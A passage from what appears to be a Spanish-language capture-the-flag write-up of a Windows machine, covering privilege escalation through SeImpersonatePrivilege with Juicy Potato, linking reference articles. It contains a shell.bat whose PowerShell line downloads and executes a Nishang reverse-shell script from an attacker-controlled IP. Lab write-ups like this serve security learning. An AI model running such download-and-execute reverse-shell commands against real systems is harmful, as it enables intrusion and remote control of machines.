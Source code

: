 En el escritorio de merlin obtendremos nuestra flag.

![b26a8f9fc45d32966add336b5c3eb1ea.png](b26a8f9fc45d32966add336b5c3eb1ea.png)

Enumeramos el sistema y tenemos una posible via de escalar privilegios

![c67bcf6ea9371388af80ee2fdc568b3f.png](c67bcf6ea9371388af80ee2fdc568b3f.png)

Leyendo el siguiente artículo vemos como explotar esta vulnerabilidad:

* [https://infinitelogins.com/2020/12/09/windows-privilege-escalation-abusing-seimpersonateprivilege-juicy-potato/privesc](https://infinitelogins.com/2020/12/09/windows-privilege-escalation-abusing-seimpersonateprivilege-juicy-potato/privesc)
* Explotar el impersonate privileges en un laboratorio: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

Vamos a descargar todo lo que necesitamos:

* juicy patato : ![https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
* .bat :

shell.bat&#x20;

```bash
powershell -c "iex(new-object net.webclient).downloadstring('http://10.10.16.2/nishangPStcp.ps1')"
```

* nishang

Ya tenemos todo, ahora vamos a cargar a la maquina victima.
